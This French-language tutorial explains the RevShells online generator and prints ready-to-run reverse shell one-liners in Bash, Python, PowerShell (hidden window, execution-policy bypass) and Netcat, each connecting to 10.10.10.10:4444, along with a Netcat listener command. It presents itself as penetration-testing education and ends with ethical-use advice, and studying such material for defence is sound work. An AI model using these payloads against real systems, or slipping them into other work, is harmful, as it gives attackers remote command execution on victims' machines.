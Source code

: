 # Shells et Reverse Shells

### **Tuto RevShells : Générateur de Reverse Shells en ligne**

RevShells est un outil en ligne qui aide à générer des commandes de reverse shells adaptées à différents environnements et langages. Il est particulièrement utile pour les tests de pénétration ou les exercices de cybersécurité.

***

### **Fonctionnalités principales :**

* Génération rapide de commandes de reverse shells compatibles avec divers langages (Bash, Python, PHP, PowerShell, etc.).
* Paramétrage simple avec l'adresse IP et le port cible.
* Options pour des shells spécifiques comme Netcat, Socat, Perl, Ruby, ou encore Java.
* Affichage des configurations nécessaires sur la machine d'écoute.

***

### **Comment utiliser RevShells :**

1. **Accéder au site :**
   * Rendez-vous sur [RevShells](https://www.revshells.com/).
2. **Configurer les paramètres :**
   * **IP** : Entrez l'adresse IP de votre machine attaquante (celle où le shell se connectera).
   * **Port** : Indiquez le port que votre machine écoutera pour la connexion entrante.
3. **Choisir le type de shell :**
   * RevShells propose une liste complète de reverse shells parmi les plus courants :
     * **Bash** : Pour les environnements Linux/Unix.
     * **Netcat** : Une solution rapide si Netcat est disponible.
     * **Python/Perl/Ruby** : Pour les systèmes ayant ces interpréteurs.
     * **PHP** : Utile pour les serveurs web.
     * **PowerShell** : Pour les systèmes Windows.
     * **Socat** : Pour un reverse shell plus robuste.
     * **Java** : Pour des environnements basés sur Java.
   * Cliquez sur le shell souhaité pour générer la commande correspondante.
4. **Copier la commande générée :**
   * La commande adaptée à votre configuration est affichée. Vous pouvez la copier pour l'utiliser sur la machine cible.
5. **Configurer l'écouteur sur votre machine :**
   * RevShells fournit également la commande à exécuter sur votre machine pour écouter les connexions entrantes.
   *   Exemple avec Netcat :

       ```bash
       nc -lvnp [PORT]
       ```
   * Lancez cette commande avant d'exécuter le shell généré sur la machine cible.

***

### **Exemples de commandes générées :**

**1. Bash Reverse Shell :**

```bash
bash -i >& /dev/tcp/10.10.10.10/4444 0>&1
```

**2. Python Reverse Shell :**

```python
python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.10",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash")'
```

**3. PowerShell Reverse Shell :**

```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command $client = New-Object System.Net.Sockets.TCPClient("10.10.10.10",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0,$i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length)};$client.Close()
```

**4. Netcat Reverse Shell :**

```bash
nc -e /bin/bash 10.10.10.10 4444
```

***

### **Bonnes pratiques :**

* **Test en environnement contrôlé** : Utilisez toujours les reverse shells dans un environnement d'apprentissage ou autorisé.
* **Configurer le pare-feu local** : Assurez-vous que le port spécifié est ouvert sur votre machine attaquante.
* **Évitez les abus** : RevShells est conçu pour des tests éthiques et éducatifs uniquement.
